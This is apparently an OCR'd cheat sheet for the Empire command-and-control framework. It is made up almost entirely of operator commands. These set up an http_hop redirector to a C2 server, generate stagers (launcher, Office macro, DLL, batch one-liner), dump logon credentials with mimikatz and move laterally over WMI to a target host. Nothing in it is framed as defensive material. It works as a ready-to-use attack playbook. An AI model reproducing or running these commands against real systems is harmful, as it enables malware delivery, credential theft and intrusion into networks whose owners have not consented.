 ### Redirector Setup
```powershell
uselistener http_hop
set Name Redirector
set RedirectTarget http://real_c2_server:80
execute
```

---

## Stager Generation

### Launcher Generation
```powershell
usestager multi/launcher
set Listener MyListener
generate
```

### Office Macro
```powershell
usestager windows/macro
set Listener MyListener
generate
```

### DLL Stager
```powershell
usestager windows/dll
set Listener MyListener
generate
```

### Web Delivery (One-Liner)
```powershell
usestager windows/launcher_bat
set Listener MyListener
generate
```

---

## Module Usage

### Credential Harvesting
```powershell
usemodule credentials/mimikatz/logonpasswords
execute
```

### Lateral Movement
```powershell
usemodule lateral_movement/invoke_wmi
set ComputerName TARGET-PC
set Listener MyListener
execute
```
